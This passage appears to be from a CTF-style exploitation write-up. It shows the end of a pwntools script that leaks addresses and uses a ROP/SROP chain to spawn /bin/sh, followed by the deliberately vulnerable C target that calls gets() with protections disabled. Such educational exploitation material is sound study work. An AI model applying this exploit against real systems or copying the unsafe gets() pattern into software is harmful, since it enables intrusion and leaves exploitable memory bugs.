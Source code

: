 ```python
        b"A" * 0x4,  # cnt
    )
    target.sendline(payload)
    target.sendline(b"BBBB")

    target.recvline()
    tls = u64(target.recvline().strip()[8:].ljust(0x8, b"\x00"))
    ld = tls + 0xC8C0
    target.success(f"tls: {hex(tls)}")
    target.success(f"ld: {hex(ld)}")

    gets = 0x40114D
    payload = flat(
        b"A" * 0x20,
        elf.bss(),
        gets,
    )
    target.sendlineafter(b"ROP me if you can!", payload)

    frame = SigreturnFrame()
    frame.rax = 0x3B
    frame.rdi = elf.bss()
    frame.rsi = 0x0
    frame.rdx = 0x0
    frame.rip = ld + rop.find_gadget(["syscall", "ret"])[0]

    payload = flat(
        b"A" * 0x20,
        b"/bin/sh\x00",
        ld + rop.find_gadget(["pop rax", "ret"])[0],
        0xF,
        ld + rop.find_gadget(["syscall", "ret"])[0],
        bytes(frame),
    )
    target.sendline(payload)

    target.interactive()


if __name__ == "__main__":
    main()
```

## Digging Deeper

### RDI != \_IO_stdfile_0_lock

```c
// gcc -Wall vuln.c -o vuln -no-pie -fno-stack-protector -std=c99

#include <stdio.h>

int main() {
  char buf[0x20];
  puts("ROP me if you can!");
  gets(buf);
  puts("No lock for you ;)");

  return 0;
}
```

